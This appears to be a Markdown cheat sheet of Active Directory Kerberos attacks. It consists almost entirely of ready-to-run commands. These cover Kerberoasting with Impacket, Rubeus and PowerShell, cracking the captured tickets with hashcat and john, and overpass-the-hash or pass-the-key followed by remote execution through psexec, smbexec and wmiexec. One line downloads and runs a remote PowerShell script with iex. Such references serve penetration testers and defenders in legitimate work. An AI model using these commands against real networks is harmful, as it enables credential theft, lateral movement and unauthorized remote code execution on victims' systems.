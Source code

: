
## Kerberoasting
- With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

- With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

- With **Powershell**:
```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

### Cracking with dictionary of passwords:
- ***Always check the mode number for example***: (`hashcat --example-hashes | grep krb5asrep$23 -B 10`)
```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Overpass The Hash/Pass The Key (PTK)
- By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>

# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>

# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]

# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
